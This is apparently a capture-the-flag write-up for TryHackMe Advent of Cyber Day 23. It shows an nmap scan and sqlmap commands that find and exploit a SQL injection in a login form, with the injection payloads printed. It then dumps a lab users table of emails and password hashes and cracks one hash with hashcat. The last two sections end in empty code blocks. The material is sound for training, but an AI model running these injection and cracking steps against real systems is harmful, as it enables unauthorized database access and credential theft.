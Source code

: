 # TryHackMe [Advent of Cyber 1](https://tryhackme.com/room/25daysofchristmas) Day 23
## Reconnaissance
* An `nmap` scan:
```bash
$ sudo nmap -sV -p- -vv 10.10.224.13
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 61 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
2. The HTTP request used for loging in that Burpsuite captured (saved as `request.txt`):
```http
POST /register.php HTTP/1.1
Host: 10.10.224.13
Content-Length: 62
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.224.13
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://10.10.224.13/register.php
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: PHPSESSID=4ff77qqc7jmoamdon1h2touoih
Connection: close

log_email=test%40test.org&log_password=test&login_button=Login
```
## Which field is SQL injectable? Use the input name used in the HTML code.
* Use `sqlmap` to find the name of the database and the SQL-injectable field:
```bash
$ sqlmap -r $(pwd)/request.txt --current-db
Parameter: log_email (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: log_email=test@test.org' AND (SELECT 4994 FROM (SELECT(SLEEP(5)))tGFA) AND 'KwiJ'='KwiJ&log_password=test&login_button=Login
current database: 'social'
```
**Answer**: `log_email`
## What is Santa Claus' email address?
1. Use `sqlmap` to get the table names under the `social` database:
```bash
$ sqlmap -r $(pwd)/request.txt -D social --tables	
---
Parameter: log_email (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: log_email=test@test.org' AND (SELECT 4994 FROM (SELECT(SLEEP(5)))tGFA) AND 'KwiJ'='KwiJ&log_password=test&login_button=Login
---
Database: social
[8 tables]
+-----------------+
| comments        |
| friend_requests |
| likes           |
| messages        |
| notifications   |
| posts           |
| trends          |
| users           |
+-----------------+
```
2. 
```bash
$ sqlmap -r $(pwd)/request.txt -D social -T users -C username,email,password --dump
---
Parameter: log_email (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: log_email=test@test.org' AND (SELECT 2841 FROM (SELECT(SLEEP(5)))OIiK) AND 'FpXc'='FpXc&log_password=test&login_button=Login

    Type: UNION query
    Title: Generic UNION query (NULL) - 12 columns
    Payload: log_email=test@test.org' UNION ALL SELECT NULL,NULL,NULL,CONCAT(0x717a717171,0x6c70647376585242715742557051726f556f6d6d45794b4b476547665575685347497153756d476f,0x7170716b71),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -&log_password=test&login_button=Login
---
Database: social
Table: users
[9 entries]
+-----------------------+------------------------+----------------------------------+
| username              | email                  | password                         |
+-----------------------+------------------------+----------------------------------+
| santa_claus           | bigman@shefesh.com     | f1267830a78c0b59acc06b05694b2e28 |
| mommy_mistletoe       | mmtoe@shefesh.com      | 402223cb4df4c5050a38043d38b1372b |
| arnold_schwarzenegger | terminator@shefesh.com | 78a6d0e6c73a29ef6d07d56f32f67b30 |
| johnfortnite_kennedy  | jayfkay@shefesh.com    | bc808149a93bc7050c3c6c4b7a5a0c97 |
| john_richardson       | john@keepingit.online  | aa4e356d1509f1c1f53e0191601cde72 |
| naughty_elf           | notty@shefesh.com      | 6aff5ae0718de8945a3f71ba4d1ca76f |
| felix_navidad         | felixnav@shefesh.com   | 57e9eb182943223b0b4e7f17c5e4cb6e |
| jessica_claus         | mrsclaus@shefesh.com   | 15bc4f3ba871b2fa651363dcddfb27d9 |
| myron_larabee         | mailman@shefesh.com    | a60c0662c54bde0301d9aa2ad86203df |
+-----------------------+------------------------+----------------------------------+
```

**Answer**: `bigman@shefesh.com`
## What is Santa Claus' plaintext password?
```bash
$ hashcat -a 0 -m 0 'f1267830a78c0b59acc06b05694b2e28' rockyou.txt
f1267830a78c0b59acc06b05694b2e28:saltnpepper
Session..........: hashcat
Status...........: Cracked
Hash.Name........: MD5
Hash.Target......: f1267830a78c0b59acc06b05694b2e28
Time.Started.....: Wed Jun 30 16:42:37 2021 (0 secs)
Time.Estimated...: Wed Jun 30 16:42:37 2021 (0 secs)
Guess.Base.......: File (rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#2.........:   947.9 kH/s (11.70ms) @ Accel:64 Loops:1 Thr:8 Vec:1
Recovered........: 1/1 (100.00%) Digests
Progress.........: 172032/14344384 (1.20%)
Rejected.........: 0/172032 (0.00%)
Restore.Point....: 147456/14344384 (1.03%)
Restore.Sub.#2...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#2....: mckenzy -> florida69
```

## Santa has a secret! Which station is he meeting Mrs Mistletoe in?
```bash
```

## Once you're logged in to LapLANd, there's a way you can gain a shell on the machine! Find a way to do so and read the file in `/home/user/`
```bash
```
